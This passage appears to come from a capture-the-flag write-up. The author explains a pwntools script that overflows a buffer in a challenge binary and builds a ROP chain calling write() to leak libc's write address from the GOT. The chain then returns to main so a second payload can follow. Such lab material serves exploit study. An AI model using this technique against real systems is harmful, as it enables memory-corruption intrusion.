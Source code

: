 Instead of puts, i'm going to use "write", since it does mostly the same, it will just require some more parameters.

So i updated my script to this:

```python
def pwn_pet_compagnion(proc):
    # Find gadgets
    pop_rdi_ret = rop.find_gadget(['pop rdi','ret'])[0]

    # Find gadgets
    pop_rsi_r15_ret = rop.find_gadget(['pop rsi', 'pop r15','ret'])[0]

    # Find addresses
    write_plt = vuln_elf.plt['write']
    write_got = vuln_elf.got['write']
    main_plt = vuln_elf.symbols['main']

    # Build the ROP chain to leak libc address
    rop_chain = b""
    rop_chain += b"A" * 72   # Padding to reach RIP overwrite
    rop_chain += p64(pop_rdi_ret)  # Pop rdi; ret
    rop_chain += p64(1)  # File descriptor (stdout)
    rop_chain += p64(pop_rsi_r15_ret)  # Pop rsi; pop r15; ret
    rop_chain += p64(write_got)  # Address of write in GOT
    rop_chain += p64(0)  # Dummy value for r15
    rop_chain += p64(write_plt)  # Call to write function to leak address of write function
    rop_chain += p64(main_plt)   # Return to main

    # Send payload
    proc.recvuntil(b"[!] Set your pet companion's current status: ")
    proc.sendline(rop_chain)


    with open ('input.txt', 'wb') as out:
        out.write(rop_chain)
        print(rop_chain)


    # Receive leaked address
    print(proc.recvuntil(b"[*] Configuring...\n\n"))
    leaked_write = proc.recv(8)
    print("leaked:", leaked_write)
    write_address = u64(leaked_write.strip().ljust(8, b"\x00"))
    print(hex(write_address))
```

Basically, it jumps on the write function, giving the right parameters to it, to print the value of the write function address stored in the GOT.
Then, i'm jumping back to main, to be able to run my previous exploit using the newly leaked memory address.

Now i just had to re-run my script, having my second payload injected once i get back to main.
